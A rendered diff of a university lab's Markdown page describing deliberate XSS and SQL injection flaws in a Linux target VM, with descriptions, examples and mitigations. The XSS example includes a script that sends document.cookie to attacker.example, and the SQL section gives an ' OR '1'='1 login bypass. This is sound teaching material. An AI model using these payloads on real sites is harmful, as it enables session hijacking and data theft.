

Before and after one commit to PatrickRumble/31261-internetworking, a Markdown page: labs/01-Linux-VM/vulnerabilities.md, the part around one of its changes. Shown at 88% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/labs/01-Linux-VM/vulnerabilities.md
+++ b/labs/01-Linux-VM/vulnerabilities.md
@@ -1,25 +1,54 @@
 # Linux VM Vulnerabilities
 
-This document highlights the deliberate vulnerabilities included in the Linux target VM. Each vulnerability is presented with a detailed explanation, real-world relevance, and educational purpose.
+This document highlights the deliberate vulnerabilities included in the Linux target VM. Each vulnerability is presented with a clear description, educational purpose, real-world relevance, and an example demonstrating the practical impact.
 
 ---
 
 ## Cross-Site Scripting (XSS)
-**Description:** Cross-Site Scripting (XSS) happens when an application includes untrusted user input in pages sent to other users without proper validation or output encoding. Attackers inject client-side code (usually JavaScript) that the victim’s browser executes in the context of the site. Because the code runs in users’ browsers, XSS can steal session tokens, perform actions on behalf of users, display spoofed UI, or be chained with other flaws.
-**Educational Purpose:** Students will exploit stored, reflected, and DOM-based XSS in controlled exercises to learn how payloads execute in victims’ browsers, how data (cookies, localStorage, form values) can be exfiltrated, and how to defend against these attacks via context-aware output encoding, input validation, and Content Security Policy (CSP).
-**Real-World Relevance:** XSS is a long-standing, common web vulnerability (historically in the OWASP Top 10). While it typically targets users rather than servers directly, consequences include account takeover, phishing, and platform abuse. High-profile incidents (e.g., the 2005 MySpace “Samy” worm and the 2014 TweetDeck XSS issue) demonstrate rapid propagation and real impact on large user bases.
 
-**Example:** A comment field accepts HTML without encoding. An attacker posts:
-'''html
-<script>fetch('https://attacker.example/steal?c='+encodedURIComponent(document.cookie))</script>
-'''
-When other users load the comment, their browsers execute the script and send session cookies to the attacker, enabling hijack of user accounts.
+**Description:**
+**Cross-Site Scripting (XSS)** occurs when an application includes untrusted user input in pages sent to other users without proper validation or output encoding. Attackers inject client-side code (usually **JavaScript**) that the victim’s browser executes in the context of the site. Because the code runs in users’ browsers, XSS can steal session tokens, perform actions on behalf of users, show spoofed UI, or be chained with other vulnerabilities to increase impact.
+
+**Educational Purpose:**
+Students will exploit stored, reflected, and DOM-based XSS in controlled exercises to learn how payloads execute in victims’ browsers, how data (cookies, `localStorage`, form values) can be exfiltrated, and how to defend against these attacks. Exercises emphasise **output encoding**, **input validation**, **CSP**, cookie flags, and secure client-side scripting patterns.
+
+**Real-World Relevance:**
+XSS is a persistent and common web vulnerability (historically in the OWASP Top 10). Although it primarily targets site users rather than the server itself, successful XSS attacks lead to **account takeover**, credential theft, phishing at scale, and automated worms that propagate across social platforms. Understanding XSS is essential for securing any web application that accepts user content.
+
+**Example:**
+A comment field accepts and renders HTML without encoding. An attacker posts the following payload:
+
+```html
+<script>fetch('[https://attacker.example/steal?c='+encodeURIComponent(document.cookie](https://attacker.example/steal?c='+encodeURIComponent(document.cookie)))</script>
+```
+When other users view the comment, their browsers execute the script and send session cookies to the attacker, enabling account hijacking or unauthorized actions using the victim’s session.
+
+**Mitigations (brief):**
+
+* Output-encode all untrusted data according to context (HTML, attribute, JS, URL).
+* Use templating engines that auto-escape and avoid direct `innerHTML`/`document.write`.
+* Implement a strict Content Security Policy (CSP) and enable `HttpOnly`/`Secure` on cookies.
+* Validate and normalise input, and whitelist acceptable content (e.g., HTML sanitiser for allowed tags).
+* Test with automated scanners and manual DOM inspection.
 
 ---
 
 ## SQL Injection
-**Description:** SQL injection occurs when user input is improperly sanitized, allowing attackers to manipulate backend database queries.
-**Educational Purpose:** Students will exploit SQL injection to retrieve sensitive information from the database and understand how unsanitized input can be dangerous.
-**Real-World Relevance:** SQL injection remains one of the most common web vulnerabilities. High-profile breaches, including credit card and personal information leaks, often result from SQL injection attacks. Understanding this vulnerability teaches students the importance of parameterized queries, input validation, and secure coding practices.
 
-**Example:** Attackers may enter malicious SQL statements in a login form to bypass authentication or extract sensitive data.
+**Description:**
+SQL Injection happens when untrusted input is interpolated into database queries, allowing attackers to alter the query logic and read, modify, or delete data. This includes classic inline SQL concatenation as well as malformed parameters that change control flow.
+
+**Educational Purpose:**
+Students will craft injection strings to enumerate databases, bypass authentication, and extract sensitive tables. Labs teach defensive coding: **prepared statements**, ORM parameterisation, input validation, least privilege database accounts, and proper error handling to avoid information leakage.
+
+**Real-World Relevance:**
+SQL injection remains one of the most damaging web vulnerabilities because it directly targets **data stores**. Successful exploits have led to large breaches, theft of personal and financial data, and **full system compromise** when combined with escalated privileges. Knowing both offensive and defensive aspects is critical for secure development and auditing.
+
+**Example:**
+A login field is concatenated into a SQL query:
+
+```sql
+SELECT * FROM users WHERE username = 'posted_username' AND password = 'posted_password';
+```
+An attacker submits `posted_username = ' OR '1'='1` to force the `WHERE` clause true and bypass authentication, or uses `UNION` queries to dump table contents.
+
````
Also changed, not shown: other parts of labs/01-Linux-VM/vulnerabilities.md (+53 -15 lines).
